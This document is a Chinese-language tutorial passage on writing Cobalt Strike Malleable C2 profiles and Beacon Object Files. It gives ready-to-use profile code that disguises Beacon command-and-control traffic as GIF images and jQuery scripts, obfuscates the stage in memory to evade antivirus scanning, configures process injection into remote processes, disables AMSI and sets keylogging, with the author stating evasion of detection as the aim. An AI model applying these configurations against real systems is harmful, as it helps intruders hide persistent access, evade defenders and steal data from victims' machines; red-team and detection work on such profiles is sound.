如下代码的作用是，当Cobalt Strike的Beacon与C2服务器通信时，服务器响应的HTTP消息头中的`Content-Type`被设定为"image/gif"，并且在消息体中插入了一段特定的十六进制编码的数据，这些数据在传输过程中会被解析为一个GIF图像。这样可以在网络流量中掩盖Beacon的通信数据，使其看起来像是正常的图像数据，从而避开了网络监控的检测

```
server {
    header "Content-Type" "image/gif";
    output {
      # 下列两行行分别将不同的十六进制序列插入到输出的开始位置
      # 这种序列通常用于具体的编码，例如这里就是构建一个GIF图像的特定格式
      prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
      prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
      print; #print命令会将输入数据打印为字符串
    }
}
```


### 终止关键字(指定数据存放位置)

在设置完数据编码规则后，我们需要使用终止关键字来标记编码规则的结束，并指定数据的存放位置。

| **声明方式**    | **数据存放位置**                                             |
| --------------- | ------------------------------------------------------------ |
| header "header" | 将数据存储在指定的HTTP头部。                                 |
| parameter "key" | 将数据存储在指定的URI参数中。（"parameter"这个终止关键字在"id"代码块中和其他地方的含义是不同的，在id代码块中是代表beacon的session id） |
| print           | 将数据存储在HTTP body中。                                    |
| uri-append      | 将数据直接附加到URI后面。当使用此终止语句时，建议使用base64url而非base64进行编码，因为普通的base64编码可能会包含"+"号，而在URL中这可能会被转义。 |

- 在`http-get.server.output`，`http-post.server.output`和`http-stager.server.output`这三个代码块中，只能使用`print`作为终止关键字，因为这些区块的数据应原样输出，不能存储在其他位置。
- 在`http-get.client.metadata`中不能使用`print`作为终止关键字，这是由于HTTP GET请求的特性决定的，它并未设计为在请求体（body）中传递参数。

另外，如果在`http-post.client.output`中使用`header`，`parameter`或`uri-append`，Beacon会将数据分块到合理的长度后进行发送，以避免因数据长度过长而导致的问题。


## 常用代码块

### http-get	

这部分配置信标发送到服务器的 HTTP GET 请求。这通常用于信标的 "check-in" 操作，即信标定期联系服务器以获取指令。`http-get` 配置可以包括请求的URI、请求头、请求参数等，以及服务器响应中应该包含的数据。这使得通信看起来像是正常的网络流量，帮助信标躲避入侵检测系统的侦测

如下代码定义了CS的HTTP GET请求的配置，分为两部分，`client`部分描述了Beacon发出的请求，`server`部分描述了C2服务器的响应

在`metadata`块中，`base64url`表示Beacon将元数据进行Base64编码；`prepend "__cfduid="`表示在编码后的元数据前添加字符串`"__cfduid="`；`header "Cookie";`表示将元数据放入"Cookie"头部字段发送

```apl
http-get {

    # 设置Beacon与C2服务器之间通信的URL
    set uri "/jquery-3.3.1.min.js";
    
    # 设置HTTP请求的类型
    set verb "GET";

    client {

        # 设置HTTP请求头的字段
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";

        metadata {
            # 设置元数据编码为base64url
            base64url;
            
            # 设置元数据前缀
            prepend "__cfduid=";
            
            # 设置携带元数据的HTTP头字段
            header "Cookie";
        }
    }

    server {

        # 设置服务器回应的HTTP头字段
        header "Content-Type" "application/octet-stream";

        output {
            # 设置服务器回应的数据编码为base64
            base64;
            
            # print指令告诉Cobalt Strike在回应中直接打印数据，不添加任何装饰
            print;
        }
}
```


### http-post

这部分配置信标发送到服务器的 HTTP POST 请求。信标使用 POST 请求来发送数据回 C2 服务器，例如搜集到的信息、命令执行结果等

与http-get不同的是，http-post多了个id参数，id部分定义了如何传输session id

session id是CS用来标识不同的beacon实例的唯一标识符。为了与C2服务器进行有效通信，每个Beacon必须在其请求中包含这个标识符，以便C2服务器可以识别和处理每个请求。例如，如果session id是1234，那么Beacon发送的POST请求uri会是`/submit.php?id=1234`。

下述代码定义了Cobalt Strike Beacon与C2服务器之间进行HTTP POST请求通信的规则

```apl
http-post {
    # 设置HTTP POST请求的URI
    set uri "/submit.php";

    client {
        # 设置HTTP请求的Content-Type
        header "Content-Type" "application/octet-stream";

        # 定义session id的传输方式，这里是添加到URL参数中
        id {
            parameter "id";
        }

        # 定义Beacon的数据输出方式，这里是编码为base64然后发送
        output {
			      base64;
            print;
        }
    }

    # 服务器响应部分
    server {
        # 设置HTTP响应的Content-Type
        header "Content-Type" "text/html";

        # 定义响应数据的处理方式，这里是解码（从base64格式）然后使用
        output {
			      base64;
            print;
        }
	}
}
```


### http-stager

C2与Beacon之间有两种通信方式：stager(分阶段)与stagerless(无阶段)。这两种类型的Payload的主要区别在于它们的大小，以及它们如何被传递和执行

- **stager：**Stager是一个小型的引导程序，其主要任务是连接到攻击者的服务器（或者某个中间节点），下载剩余的Payload（即Stage部分），然后执行它
- **stagerless：**这种Payload在被传递到目标系统时就已经完整，没有分为Stager和Stage两部分。一旦Payload到达目标系统，它就可以立即执行

Cobalt Strike提供了`http-stager`代码块，使我们可以控制stage（即Beacon的核心代码）的发送过程，下面是一个`http-stager`的示例

```apl
http-stager {  
    set uri_x86 "/jquery-3.3.1.slim.min.js";
    set uri_x64 "/jquery-3.3.2.slim.min.js";

    server {
        header "Server" "NetDNA-cache/2.2";
        header "Cache-Control" "max-age=0, no-cache";
        header "Pragma" "no-cache";
        header "Connection" "keep-alive";
        header "Content-Type" "application/javascript; charset=utf-8";
        output {
            ## The javascript was changed.  Double quotes and backslashes were escaped to properly render (Refer to Tips for Profile Parameter Values)
            # 2nd Line            
            prepend "!function(e,t){\"use strict\";\"object\"==typeof module&&\"object\"==typeof module.exports?module.exports=e.document?t(e,!0):function(e){if(!e.document)throw new Error(\"jQuery requires a window with a document\");return t(e)}:t(e)}(\"undefined\"!=typeof window?window:this,function(e,t){\"use strict\";var n=[],r=e.document,i=Object.getPrototypeOf,o=n.slice,a=n.concat,s=n.push,u=n.indexOf,l={},c=l.toString,f=l.hasOwnProperty,p=f.toString,d=p.call(Object),h={},g=function e(t){return\"function\"==typeof t&&\"number\"!=typeof t.nodeType},y=function e(t){return null!=t&&t===t.window},v={type:!0,src:!0,noModule:!0};function m(e,t,n){var i,o=(t=t||r).createElement(\"script\");if(o.text=e,n)for(i in v)n[i]&&(o[i]=n[i]);t.head.appendChild(o).parentNode.removeChild(o)}function x(e){return null==e?e+\"\":\"object\"==typeof e||\"function\"==typeof e?l[c.call(e)]||\"object\":typeof e}var b=\"3.3.1\",w=function(e,t){return new w.fn.init(e,t)},T=/^[\\s\\uFEFF\\xA0]+|[\\s\\uFEFF\\xA0]+$/g;w.fn=w.prototype={jquery:\"3.3.1\",constructor:w,length:0,toArray:function(){return o.call(this)},get:function(e){return null==e?o.call(this):e<0?this[e+this.length]:this[e]},pushStack:function(e){var t=w.merge(this.constructor(),e);return t.prevObject=this,t},each:function(e){return w.each(this,e)},map:function(e){return this.pushStack(w.map(this,function(t,n){return e.call(t,n,t)}))},slice:function(){return this.pushStack(o.apply(this,arguments))},first:function(){return this.eq(0)},last:function(){return this.eq(-1)},eq:function(e){var t=this.length,n=+e+(e<0?t:0);return this.pushStack(n>=0&&n<t?[this[n]]:[])},end:function(){return this.prevObject||this.constructor()},push:s,sort:n.sort,splice:n.splice},w.extend=w.fn.extend=function(){var e,t,n,r,i,o,a=arguments[0]||{},s=1,u=arguments.length,l=!1;for(\"boolean\"==typeof a&&(l=a,a=arguments[s]||{},s++),\"object\"==typeof a||g(a)||(a={}),s===u&&(a=this,s--);s<u;s++)if(null!=(e=arguments[s]))for(t in e)n=a[t],a!==(r=e[t])&&(l&&r&&(w.isPlainObject(r)||(i=Array.isArray(r)))?(i?(i=!1,o=n&&Array.isArray(n)?n:[]):o=n&&w.isPlainObject(n)?n:{},a[t]=w.extend(l,o,r)):void 0!==r&&(a[t]=r));return a},w.extend({expando:\"jQuery\"+(\"3.3.1\"+Math.random()).replace(/\\D/g,\"\"),isReady:!0,error:function(e){throw new Error(e)},noop:function(){},isPlainObject:function(e){var t,n;return!(!e||\"[object Object]\"!==c.call(e))&&(!(t=i(e))||\"function\"==typeof(n=f.call(t,\"constructor\")&&t.constructor)&&p.call(n)===d)},isEmptyObject:function(e){var t;for(t in e)return!1;return!0},globalEval:function(e){m(e)},each:function(e,t){var n,r=0;if(C(e)){for(n=e.length;r<n;r++)if(!1===t.call(e[r],r,e[r]))break}else for(r in e)if(!1===t.call(e[r],r,e[r]))break;return e},trim:function(e){return null==e?\"\":(e+\"\").replace(T,\"\")},makeArray:function(e,t){var n=t||[];return null!=e&&(C(Object(e))?w.merge(n,\"string\"==typeof e?[e]:e):s.call(n,e)),n},inArray:function(e,t,n){return null==t?-1:u.call(t,e,n)},merge:function(e,t){for(var n=+t.length,r=0,i=e.length;r<n;r++)e[i++]=t[r];return e.length=i,e},grep:function(e,t,n){for(var r,i=[],o=0,a=e.length,s=!n;o<a;o++)(r=!t(e[o],o))!==s&&i.push(e[o]);return i},map:function(e,t,n){var r,i,o=0,s=[];if(C(e))for(r=e.length;o<r;o++)null!=(i=t(e[o],o,n))&&s.push(i);else for(o in e)null!=(i=t(e[o],o,n))&&s.push(i);return a.apply([],s)},guid:1,support:h}),\"function\"==typeof Symbol&&(w.fn[Symbol.iterator]=n[Symbol.iterator]),w.each(\"Boolean Number String Function Array Date RegExp Object Error Symbol\".split(\" \"),function(e,t){l[\"[object \"+t+\"]\"]=t.toLowerCase()});function C(e){var t=!!e&&\"length\"in e&&e.length,n=x(e);return!g(e)&&!y(e)&&(\"array\"===n||0===t||\"number\"==typeof t&&t>0&&t-1 in e)}var E=function(e){var t,n,r,i,o,a,s,u,l,c,f,p,d,h,g,y,v,m,x,b=\"sizzle\"+1*new Date,w=e.document,T=0,C=0,E=ae(),k=ae(),S=ae(),D=function(e,t){return e===t&&(f=!0),0},N={}.hasOwnProperty,A=[],j=A.pop,q=A.push,L=A.push,H=A.slice,O=function(e,t){for(var n=0,r=e.length;n<r;n++)if(e[n]===t)return n;return-1},P=\"\r";
            # 1st Line
            prepend "/*! jQuery v3.3.1 | (c) JS Foundation and other contributors | jquery.org/license */";
            append "\".(o=t.documentElement,Math.max(t.body[\"scroll\"+e],o[\"scroll\"+e],t.body[\"offset\"+e],o[\"offset\"+e],o[\"client\"+e])):void 0===i?w.css(t,n,s):w.style(t,n,i,s)},t,a?i:void 0,a)}})}),w.each(\"blur focus focusin focusout resize scroll click dblclick mousedown mouseup mousemove mouseover mouseout mouseenter mouseleave change select submit keydown keypress keyup contextmenu\".split(\" \"),function(e,t){w.fn[t]=function(e,n){return arguments.length>0?this.on(t,null,e,n):this.trigger(t)}}),w.fn.extend({hover:function(e,t){return this.mouseenter(e).mouseleave(t||e)}}),w.fn.extend({bind:function(e,t,n){return this.on(e,null,t,n)},unbind:function(e,t){return this.off(e,null,t)},delegate:function(e,t,n,r){return this.on(t,e,n,r)},undelegate:function(e,t,n){return 1===arguments.length?this.off(e,\"**\"):this.off(t,e||\"**\",n)}}),w.proxy=function(e,t){var n,r,i;if(\"string\"==typeof t&&(n=e[t],t=e,e=n),g(e))return r=o.call(arguments,2),i=function(){return e.apply(t||this,r.concat(o.call(arguments)))},i.guid=e.guid=e.guid||w.guid++,i},w.holdReady=function(e){e?w.readyWait++:w.ready(!0)},w.isArray=Array.isArray,w.parseJSON=JSON.parse,w.nodeName=N,w.isFunction=g,w.isWindow=y,w.camelCase=G,w.type=x,w.now=Date.now,w.isNumeric=function(e){var t=w.type(e);return(\"number\"===t||\"string\"===t)&&!isNaN(e-parseFloat(e))},\"function\"==typeof define&&define.amd&&define(\"jquery\",[],function(){return w});var Jt=e.jQuery,Kt=e.$;return w.noConflict=function(t){return e.$===w&&(e.$=Kt),t&&e.jQuery===w&&(e.jQuery=Jt),w},t||(e.jQuery=e.$=w),w});";
            print;
        }
    }

    client {
        header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";
        header "Accept-Language" "en-US,en;q=0.5";
        #header "Host" "code.jquery.com";
        header "Referer" "http://code.jquery.com/";
        header "Accept-Encoding" "gzip, deflate";
    }
}
```

`set uri_x86 "/jquery-3.3.1.slim.min.js";` 和 `set uri_x64 "/jquery-3.3.2.slim.min.js";`: 这两行设置了32位和64位stager在HTTP请求中使用的URI。

`server` 部分设置了C2服务器在HTTP响应中使用的参数。

- `header` 关键字设置了响应头的参数。例如`header "Server" "NetDNA-cache/2.2";` 设置了"Server"响应头为"NetDNA-cache/2.2"。
- `output` 部分设置了响应体的内容。`prepend` 和 `append` 分别添加了一些数据到响应体的开始和结束。在这种情况下，数据被设计成看起来像一个jQuery文件，这有助于掩盖stager的真实内容。

`client` 部分设置了stager在HTTP请求中使用的参数。

`header` 关键字设置了请求头的参数。例如，`header "Accept" "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8";` 

总的来说，这段配置为Cobalt Strike设置了一个伪装成jQuery文件的HTTP载荷分发机制，有助于绕过某些安全检测


### http-config

http-config允许你定义http通信的全局特性，会影响所有HTTP响应

```
http-config {
    set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
    header "Server" "Apache";
    header "Keep-Alive" "timeout=5, max=100";
    header "Connection" "Keep-Alive";
}
```


可以看到所有http响应都有附加设置的字段

	

​	

### https-certificate

Cobalt Strike的Malleable C2 profile提供了两种方式来设置SSL证书：使用预生成的证书和生成自签名证书

#### 使用预生成的证书

如果你已经有一个预生成的PEM格式的SSL证书（包括公钥和私钥），你可以直接在profile文件的http-certificate代码块中来指定它

在下述例子中，`set keystore`命令指定了证书文件的路径，而`set password`指定了证书文件的密码。

```apl
https-certificate {
    set keystore "C:\\path\\to\\your\\keystore.store";
    set password "password";
}
```


#### 生成自签名证书

如果你没有证书，Cobalt Strike可以为你生成一个自签名证书。在profile文件中，可以使用`https-certificate`代码块来定义证书的各个部分，在下述例子中，`set CN`、`set O`等命令定义了证书的各种属性

```apl
https-certificate {
    set CN "www.example.com";  			#定义通用名称
    set O "Example Corporation";	    #定义组织
    set OU "Marketing";                 #定义组织单位
    set C "US"; 						#定义国家
    set ST "New York"; 					#定义州/省
    set L "New York";                   #定义城市
    set validity "365";                 #设置了证书的有效期
    set keypass "password";             #设置私钥的密码
}
```


#### `.pem`转`.store`

首先使用openssl命令将PEM格式的证书和私钥合并为一个PKCS12 (.p12)格式的文件

```
openssl pkcs12 -export -in cert.pem -inkey key.pem -out pkcs12.p12 -name alias -password pass:myp12password
```

> -in和-inkey：填写你的证书和私钥文件
>
> -out：填写你希望创建的PKCS12文件
>
> -name：填写你证书的别名(自定义)
>
> -password：填写PKCS12文件的密码，后面转换为Java Keystore文件要用到



​	

使用keytool命令将PKCS12格式的文件转换为Java KeyStore (.store)格式：

```
keytool -importkeystore -deststorepass mystorepassword -destkeystore keystore.store -srckeystore pkcs12.p12 -srcstoretype PKCS12 -srcstorepass myp12password
```

> -deststorepass：Java KeyStore文件的密码
>
> -destkeystore：你希望创建的Java KeyStore文件
>
> -srckeystore：前面创建的PKCS12文件
>
> -srcstorepass：前面设置的PKCS12文件的密码




可使用 Java 的 `keytool` 工具来检查生成的 `.store` 文件，填写你的`.store`文件路径以及密码，如果你的文件有效，那么此命令会显示你的证书的详细信息，如证书的所有者、发行者、序列号、有效期等，否则返回错误消息

```
keytool -list -v -keystore keystore.store -storepass mystorepassword
```




后面你就可以在Profile文件使用新生成的Java KeyStore文件了，在Profile文件中你可以这样设置：

```apl
https-certificate {
    set keystore "C:\\path\\to\\your\\keystore.store";
    set password "mystorepassword";
}
```


### stage

之前说过的无阶段payload会远程加载并执行stage，其实这个stage就是一个反射dll(Beacon Dll)，通过修改stage块的内容可以扩展Beacon Dll的功能，以此达到一定的免杀效果

以下是一个stage代码块的例子：

```apl
stage {
    # 开启混淆，对生成的Beacon shellcode进行混淆
    set obfuscate "true";

    # 开启PE头覆盖，修改已加载的DLL的PE头部以逃避安全软件的检测
    set stomppe "true";

    # 开启清理功能，清理为Beacon加载而创建的资源，如线程和句柄
    set cleanup "true";

    # 让分配给Beacon的内存区域同时具有读、写和执行权限
    set userwx "true";

    # 开启智能注入，尝试避免在注入Beacon时引起异常
    set smartinject "true";
    
    # 在负载处于休眠状态时，对内存中的Beacon负载进行操作，改变其内存中的表现形式，使其更难被检测
    set sleep_mask "true";
    
    # 设置内存分配器的类型，使用Windows API中的"VirtualAlloc"函数
    set allocator "VirtualAlloc";

    # 定义用于替换Beacon反射性DLL的PE头的自定义字节
    set magic_pe "LE";

    # 定义PE头部的各个属性
    set checksum       "0";  # 设置PE头部的校验和
    set entry_point    "13760";  # 设置PE头部的入口点
    set image_size_x86 "548864";  # 设置PE头部的图像大小（x86）
    set image_size_x64 "548864";  # 设置PE头部的图像大小（x64）
    set name           "wwanapi.dll";  # 设置PE头部的名称

    # 设置用于替换Beacon反射性DLL的Rich Header的自定义字节
    set rich_header    "\x39\x39\x83\xe8\x7d\x58\xed\xbb\x7d\x58\xed\xbb\x7d\x58\xed\xbb\x74\x20\x7e\xbb\x3b\x58\xed\xbb\x26\x30\xee\xba\x7e\x58\xed\xbb\x26\x30\xe9\xba\x69\x58\xed\xbb\x7d\x58\xec\xbb\xbf\x58\xed\xbb\x26\x30\xec\xba\x78\x58\xed\xbb\x26\x30\xe8\xba\x71\x58\xed\xbb\x26\x30\xed\xba\x7c\x58\xed\xbb\x26\x30\xe3\xba\x1f\x58\xed\xbb\x26\x30\x12\xbb\x7c\x58\xed\xbb\x26\x30\xef\xba\x7c\x58\xed\xbb\x52\x69\x63\x68\x7d\x58\xed\xbb\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00";
}

```


在 `stage` 部分，我们可以使用不同的命令来绕过一些防御机制和检测策略，如下表格所示：

| **命令/选项**    | **描述**                                                     |
| ---------------- | ------------------------------------------------------------ |
| prepend          | 用于避免某些扫描内存段的前几个字节以查找注入的 DLL 的痕迹的检测。 |
| strrep           | 用于替换指定的字符串，如默认的 "ReflectiveLoader" 字符串。   |
| sleep_mask       | 用于启用内存混淆，使 Beacon 在每次 sleep 之前都混淆自己所在的内存区域，并在 sleep 结束后解混淆。此功能专门绕过内存扫描的杀软(比如卡巴) |
| userwx           | 控制 Beacon 的反射加载器是否使用 RWX 权限来分配内存，设置为 `false` 可以避免引发警告和关注。 |
| allocator        | 用于改变默认的内存分配器 `VirtualAlloc`，可以选择使用 `HeapAlloc` 或 `MapViewOfFile` 来替代。 |
| module_(x64,x86) | 1是 `allocator` 选项的一部分，用于指定不同架构下的分配器。   |
| cleanup          | 控制是否在 Beacon stage 初始化完成后释放 stage 所占用的内存，设置为 `true` 可以避免留下内存痕迹。 |


### process-inject

`process-inject` 代码块是用于控制 Beacon 在注入到远程进程时的行为。在进行攻击时，攻击者可能会尝试将 Beacon 注入到一个正在运行的进程中以实现持久化和隐藏

以下代码是Cobalt Strike配置中进程注入部分的设置，它定义了Cobalt Strike如何在远程进程中注入和执行代码。特别的，它设置了使用"VirtualAllocEx"为远程进程分配内存，内存分配的最小值设为7814字节。它指定了新分配的内存区域不应该具有读、写和执行（RWX）权限，也就是不允许在分配和写入载荷之前，内存区域具有这样的权限。为了避免某些防御机制的检测，它还在注入的代码前添加了几个NOP（无操作）指令。此外，它定义了多种在远程进程中执行代码的方法，包括使用`CreateThread`，`NtQueueApcThread-s`，`SetThreadContext`，`CreateRemoteThread`和`RtlCreateUserThread`等函数，这提供了进程注入的灵活性和多样性，使得攻击更难被防御措施检测到。

```apl
process-inject {
    # 设置远程内存分配技术
    set allocator "VirtualAllocEx";

    # 形状注入内容和属性
    set min_alloc "7814";  # 设置内存分配的最小值为7814字节
    set userwx    "false";  # 分配的内存不应具有读、写和执行（RWX）权限
    set startrwx "false";  # 注入代码前，内存不应被设置为具有读、写和执行（RWX）权限

    transform-x86 {
        # 在注入的代码前添加 NOP （无操作）指令
        prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; // NOP, NOP!
    }

    transform-x64 {
        # 在注入的代码前添加 NOP （无操作）指令
        prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; // NOP, NOP!
    }

    // 指定在远程进程中执行代码的方法
    execute {
        CreateThread "ntdll.dll!RtlUserThreadStart+0x2285"; # 使用CreateThread函数执行代码
        NtQueueApcThread-s;  # 使用NtQueueApcThread-s函数执行代码
        SetThreadContext; # 使用SetThreadContext函数执行代码
        CreateRemoteThread; # 使用CreateRemoteThread函数执行代码
        CreateRemoteThread "kernel32.dll!LoadLibraryA+0x1000"; # 使用CreateRemoteThread函数并偏移执行代码
        RtlCreateUserThread; # 使用RtlCreateUserThread函数执行代码
    }
}

```

注：`transform-x86`和`transform-x64`代码块用于对注入的代码进行转换，可以向Beacon注入的内容添加东西，你可以使用`append`和`prepend`命令来向注入的代码前或后添加额外的代码，又或者使用`replace-str`和`replace-all-str`命令在注入的代码中替换字符串


### post-ex

`post-ex`代码块在Cobalt Strike的Beacon payload中是用来配置后期执行（post-exploitation）阶段的一些参数。这些参数主要影响和控制如何创建新的进程、怎样注入和执行代码、如何混淆和隐藏行为以及如何收集和传输数据等。

一般而言，在一个成功的网络入侵中，攻击者在拥有目标系统的访问权限之后，通常需要进行一系列的后期执行活动，例如执行更多的攻击、收集数据、建立持久性访问等。这些活动需要对目标系统进行一系列复杂的操作，如创建和管理新的进程、注入和执行代码、使用不同的通信方式来传输数据等。`post-ex`代码块就是用来配置和控制这些操作的一系列参数。

```apl
post-ex {
    # 控制我们产生的临时进程。Beacon将产生一个临时进程，将shellcode注入其中，并让新的进程执行这个shellcode。
    set spawnto_x86 "%windir%\\syswow64\\svchost.exe"; # 对于32位payloads
    set spawnto_x64 "%windir%\\sysnative\\svchost.exe"; # 对于64位payloads
    
    # 改变我们的post-ex DLLs的权限和内容。此设置启用对Beacon用于post-ex任务的DLLs(如键盘记录或令牌操作)的混淆。
    set obfuscate "true";
    
    # 更改我们的post-ex输出命名管道名称。此设置允许控制Beacon用于从作业中检索输出的命名管道。
    set pipename "srvsvc-1-5-5-0####";
    
    # 将关键函数指针从Beacon传递到其子作业。启用smart注入将使Beacon将带有关键函数指针的数据结构传递给其post-ex作业。
    set smartinject "true";
    
    # 允许多线程post-ex DLLs产生带有伪装起始地址的线程。
    # set thread_hint "module!function+0x##";
    
    # 在powerpick、execute-assembly和psinject中禁用AMSI。此选项将会在目标进程中修补AMSI。
    set amsi_disable "true";
    
    # 控制用于记录键盘击键的方法
    set keylogger "SetWindowsHookEx";
}
```

在如上代码中，使用`spawnto_x86`和`spawnto_x64`设置来定义在32位和64位系统上新创建的进程的名称，可以使用`obfuscate`设置来决定是否对Beacon用于后期执行任务的DLL进行混淆以避免被检测，还可以通过`amsi_disable`设置来决定是否禁用目标系统的AMSI（防恶意软件扫描接口）来避免被反恶意软件工具检测等等。

 `pipename`参数用于定义或改变在后期执行阶段使用的命名管道(命名管道是一种在本地或网络上的不同进程之间进行通信的机制。在Windows系统中，它们通常用于在不同的进程或者系统之间共享和传输数据。它们的名字通常以`\\.\pipe\`开始，然后是任意你选择的名称)。特别地，`pipename`中的`#`符号会被替换为一个随机的数字，这样每次创建新的命名管道时都会使用一个不同的名称，从而进一步提高了隐蔽性

例如，`set pipename "srvsvc-1-5-5-0####";`设置将创建一个名为`srvsvc-1-5-5-0`后面跟四个随机数字的命名管道，例如`srvsvc-1-5-5-01234`。这个名字看起来像一个正常的Windows服务，可能不会引起安全人员的注意


## 参考链接

- https://wbglil.gitbook.io/cobalt-strike/cobalt-strikekuo-zhan/malleable-c2#malleable-c2-ji-ben-yu-fa

- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/malleable-c2_profile-language.htm#_Toc65482837


# 十一、bof开发

## 前言	

Beacon Object File(BOF) 从Cobalt Strike4.1开始所添加的新功能，它允许你使用C语言编写扩展来扩展Beacon的功能。这些扩展可以在运行时直接加载到Beacon的内存中并执行，无需在目标机器的磁盘上创建任何文件

BOF的一个关键特性是它的运行时环境非常有限。它不能直接调用Windows API，而只能通过Cobalt Strike提供的一组函数来与操作系统进行交互。这样做的原因是为了防止BOF在运行时出错导致Beacon崩溃。然而，尽管这种限制使得编写BOF相对复杂一些，但BOF仍然是一个非常强大的工具，可以用来添加各种自定义功能到Beacon中

一旦BOF编译完成，你可以通过Beacon的"inline-execute"命令来加载并执行BOF。这个命令会将BOF上传到Beacon的内存中并立即执行它，无需将BOF写入到磁盘


## 环境准备

Github上有很多开发BOF的项目，这里我推荐以下两个项目，前者是开发bof的VisualStuido项目模板，此模板对BOF函数进行了宏定义，这样我们可以像使用C语言一样来开发BOF项目；后者是开发BOF项目所需的头文件，如果此项目更新了，我们可以将此项目的头文件替换掉模板项目的头文件

- bof的visual studio模板：https://github.com/securifybv/Visual-Studio-BOF-template

- bof所需的头文件：https://github.com/trustedsec/CS-Situational-Awareness-BOF

不过我更加推荐使用evilashz师傅整理好的模板：https://github.com/evilashz/Visual-Studio-BOF-template

此模板通过DLL名称将WindowsApi函数进行了归类，例如kernel32.dll的导出函数定义就写在kernel32.h里



在函数定义里可以发现有加上`KERNEL32$`这种前缀，为何CobaltStrike的Bof要使用这种前缀呢，个人推测原因有以下两点：

- **直接调用**: 通过这种方式，BOF可以直接调用DLL中的原生函数，而不需要在BOF的导入表中声明它们。这有助于BOF保持小型和轻量级。
- **隐蔽性**: 使用这种前缀来直接调用API函数可以增加对某些安全解决方案的隐蔽性，因为它们可能不会检测到这些不常见的调用模式


beacon.h定义了与Cobalt Strike Beacon交互所需要的各种数据类型和函数



具体来说，这个文件包含了以下部分：

- **数据API**：这部分定义了一个数据结构（`datap`），以及一些函数，这些函数用于解析和操作这种数据结构。`datap` 结构包含原始缓冲区的指针，当前缓冲区的指针，剩余的数据长度，以及缓冲区的总大小。
- **格式API**：这部分定义了一个格式化数据的结构（`formatp`），以及一些函数，这些函数用于分配、重置、释放和操作这种数据结构。`formatp` 结构与 `datap` 结构非常相似，但它是用于格式化数据，而不是解析数据。
- **输出函数**：这部分定义了一些宏和函数，用于向 Beacon 的输出流中输出数据。函数 `BeaconPrintf` 和 `BeaconOutput` 可以分别用于格式化输出和二进制输出。
- **令牌函数**：这部分定义了一些函数，用于在 Beacon 中使用和操作 Windows 访问令牌。这些函数包括 `BeaconUseToken`（使用指定的令牌）、`BeaconRevertToken`（恢复到之前的令牌）、`BeaconIsAdmin`（检查当前令牌是否具有管理员权限）。
- **注入函数**：这部分定义了一些函数，用于在新的或已经存在的进程中注入 payload。这些函数包括 `BeaconGetSpawnTo`（获取 Beacon 的 SpawnTo 设置）、`BeaconInjectProcess`（在指定进程中注入 payload）、`BeaconInjectTemporaryProcess`（在临时进程中注入 payload）、`BeaconCleanupProcess`（清理进程信息）。
- **实用函数**：这部分定义了一些实用函数，例如 `toWideChar`（将一个字符串转换为宽字符字符串）。


bofdefs.h文件定义了许多函数，这些函数实际上是 Windows API 的宏定义，它们使得开发者能够在 Beacon Object File（BOF）中方便地调用 Windows API，就像使用C语言一样




## 使用步骤

将下载的模板文件解压至visualstudio的模板目录(`%UserProfile%\Documents\Visual Studio 2022\Templates\ProjectTemplates`)，随后重启VisualStuido

	


在创建项目时选择类型为`Beacon Object File`的项目




在头文件列表可以看到`beacon.h`和`bofdefs.h`




打开项目的Batch生成，勾选上BOF配置。配置管理器的编译环境也需设置为BOF




以下是一个简单的bof项目，用于实现向控制台输出字符串

- **BOF入口**：代码定义了BOF的入口函数`go`，当你在Cobalt Strike中使用`inline-execute`命令加载并执行你的BOF时，这个函数将被调用。你可以在这个函数中添加你的BOF代码
- **非BOF入口**：这部分代码定义了非BOF的入口函数`main`。当你在非Cobalt Strike环境中运行你的代码时，这个函数将被调用。你可以在这个函数中添加你的非BOF代码

```c
#include <windows.h>
#include <stdio.h>
#include "bofdefs.h"

#pragma region error_handling
#define print_error(msg, hr) _print_error(__FUNCTION__, __LINE__, msg, hr)
BOOL _print_error(char* func, int line,  char* msg, HRESULT hr) {
#ifdef BOF
	BeaconPrintf(CALLBACK_ERROR, "(%s at %d): %s 0x%08lx", func, line,  msg, hr);
#else
	printf("[-] (%s at %d): %s 0x%08lx", func, line, msg, hr);
#endif // BOF

	return FALSE;
}
#pragma endregion


#ifdef BOF
void go(char* buff, int len) {
	BeaconPrintf(CALLBACK_OUTPUT, "Hello, World!");
}


#else

void main(int argc, char* argv[]) {
	
}

#endif
```


项目生成后会生成一个`.obj`文件，也就是编译未链接的目标文件，在CobaltStrike中你可以使用`inline-execute`命令来加载并执行你的.obj文件，此命令将你的 `.obj` 文件加载到 Beacon 的内存中，然后调用你的 `go` 函数，命令格式如下所示

```
beacon> inline-execute your_bof.obj
```




## 踩坑记录

### 1.bof应尽量使用C语言

编写bof时应该尽量使用C语言来编写，如果你使用C++来编写很可能会出现如下图所示的错误：`Could not resolve API`

这是因为C++为了支持函数重载，会对函数名进行修饰，从而导致函数的实际名称与你在代码中看到的名称不同，因此当你尝试在BOF解析某个函数时，可能会找不到它




### 2.inline-execute无法接收参数？

如下是一个简单的bof项目源码，用于在beacon命令行输出bof接收的参数

```cpp
void go(char* buff, int len) {

	// datap是BOF框架中定义的结构体，用于解析从Beacon接收到的数据
	// 当你在Beacon执行BOF时，可以向BOF传递一些参数，这些参数会被打包成一个字节流
	// BOF会使用datap结构体来解析这个字节流，从而获取到传递的参数
	datap parser;

	wchar_t* username;
	wchar_t* password;

	// 初始化datap结构体变量(parser),用于解析从Beacon接收到的字节流(buff)
	BeaconDataParse(&parser, buff, len);
	username = (wchar_t*)BeaconDataExtract(&parser, NULL);
	password = (wchar_t*)BeaconDataExtract(&parser, NULL);

	BeaconPrintf(CALLBACK_OUTPUT, "Extracted username: %S", username);
	BeaconPrintf(CALLBACK_OUTPUT, "Extracted password: %S", password);
}
```


